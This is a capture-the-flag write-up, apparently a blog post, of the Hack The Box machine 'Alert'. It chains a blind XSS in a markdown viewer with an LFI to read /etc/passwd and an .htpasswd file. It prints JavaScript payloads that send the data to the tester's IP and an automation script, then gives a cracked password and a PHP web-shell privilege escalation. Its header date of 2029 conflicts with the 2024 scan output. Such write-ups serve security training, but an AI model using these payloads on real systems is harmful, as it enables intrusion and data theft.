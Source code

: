 ```yaml
---
layout: post
title:  "[HTB] Alert"
date:   2029-01-17
categories: CTF
---
```


As usual let us start with our nmap scan

---
└─$ nmap 10.10.11.44          
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 03:48 EST
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---

Seeing that we only have ports 22 and 80 here, highly likely our initial access will come from port 80. So let us visit port 80 and see that this is a markdown viewer of some sort wherein we can upload md files.

![alt text](/assets/uploads/htb-alert/image.png)

Trying to upload an md file, we see that it doesnt filter out any html and script tags, and it generates a share link for us. So we can leverage this by creating an XSS payload and sending this to the admin side. But how can we send this to the admin side?  

![alt text](/assets/uploads/htb-alert/image-2.png)

![alt text](/assets/uploads/htb-alert/image-1.png)

Upon looking at the web application, we see that there is a contact us feature which is exactly what we need. 

![alt text](/assets/uploads/htb-alert/image-3.png)

We can more or less deduce that our path would be to create a blind XSS payload and send it to the admin side and gain more information about the machine. 

To try this hypothesis, we create a basic blind xss payload as follows `<script src="//10.10.14.32/zw1tt3r1on.test"></script>`. When we try and upload this file and share it to the admin side by the contact us page, we see that we get a callback from the server

![alt text](/assets/uploads/htb-alert/image-4.png)

From here, we can craft a specific payload to try and fetch the homepage and send the data back to us

---
<script>
fetch("http://alert.htb/")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

We discover now that there is a hidden endpoint called "messages" which corresponds to messages.php.

![alt text](/assets/uploads/htb-alert/image-5.png)

Trying to fetch this messages.php gives us an interesting parameter called "file". 

<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-6.png)

Testing this file parameter, we discover that this is vulnerable to a LFI. We can now use this to fetch files within the machine. Sample below is fetching the /etc/passwd file on the machine.

---
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-7.png)

Now we just need to enumerate the machine and look for interesting files. For this, I create a very simple python script to automatically upload the md file and send the link to the contact us page as shown below

```
import requests, re

def send_to_contact(file_name):
    burp0_url = "http://alert.htb:80/contact.php"
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://alert.htb", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_data = {"email": "zw@zw.com", "message": file_name}
    requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


def send_md_request(file_path):
    burp0_url = "http://alert.htb:80/visualizer.php"
    burp0_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://alert.htb",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryJFBXbjnjqVK66x3C",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://alert.htb/index.php?page=alert",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }
    burp0_data = f"""------WebKitFormBoundaryJFBXbjnjqVK66x3C\r\nContent-Disposition: form-data; name="file"; filename="zwtest.md"\r\nContent-Type: text/markdown\r\n\r\n<script>
fetch("http://alert.htb/messages.php?file={file_path}")
  .then(response => response.text()) // Convert the response to text
  .then(data => {{
    fetch("http://10.10.14.32/?d1=" + encodeURIComponent(data)); // Exfiltrate data
  }})
  .catch(error => console.error("Error fetching the messages:", error));
</script>\r\n------WebKitFormBoundaryJFBXbjnjqVK66x3C--\r\n"""
    response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

    regex_template = r'href="(http://alert\.htb/visualizer\.php\?link_share=[^"]+)"'
    match = re.search(regex_template, str(response.text))
    url = match.group(1)
    print('sending url: ', url)
    send_to_contact(url)

while True:
    send_md_request(input('enter path: '))

```

![alt text](/assets/uploads/htb-alert/image-8.png)

Looking at the 000-default.conf file, we see that there is another subdomain called statistics

![alt text](/assets/uploads/htb-alert/image-10.png)

![alt text](/assets/uploads/htb-alert/image-9.png)

Visiting the statistics subdomain gives us a basic auth login 

![alt text](/assets/uploads/htb-alert/image-11.png)

Since we have a way to read local files within the machine, we can read the .htpasswd file of statistics.alert.htb at /var/www/statistics.alert.htb/.htpasswd and we get the credentials of the user "albert"

![alt text](/assets/uploads/htb-alert/image-13.png)

![alt text](/assets/uploads/htb-alert/image-12.png)

Cracking this hash, we get the password is "manchesterunited". 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_28_45.png>)

We can now use this to login using ssh and we get our user flag

![alt text](/assets/uploads/htb-alert/image-16.png)

Looking for possible privilege escalation pathways, we observe that there is a php process running serving files on port 8080 as root. 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_42_12.png>)

So we port forward this using ssh and take a look at what it is exactly running

![alt text](/assets/uploads/htb-alert/image-14.png)

![alt text](/assets/uploads/htb-alert/image-15.png)

Since it is serving files on the /opt/website-monitor directory, we just need to find a way to write something in the /opt/website-monitor and get a php shell.

![alt text](/assets/uploads/htb-alert/image-17.png)

Since we know that we can write in the config and monitors folder, let us quickly write a php web shell and visit that page 

![alt text](/assets/uploads/htb-alert/image-18.png)

![alt text](/assets/uploads/htb-alert/image-19.png)

From here we can just get a reverse shell using our web shell and get the root flag, or just simply cat the root flag using this web shell

![alt text](/assets/uploads/htb-alert/image-20.png)

Pwned!!

![alt text](/assets/uploads/htb-alert/image-21.png)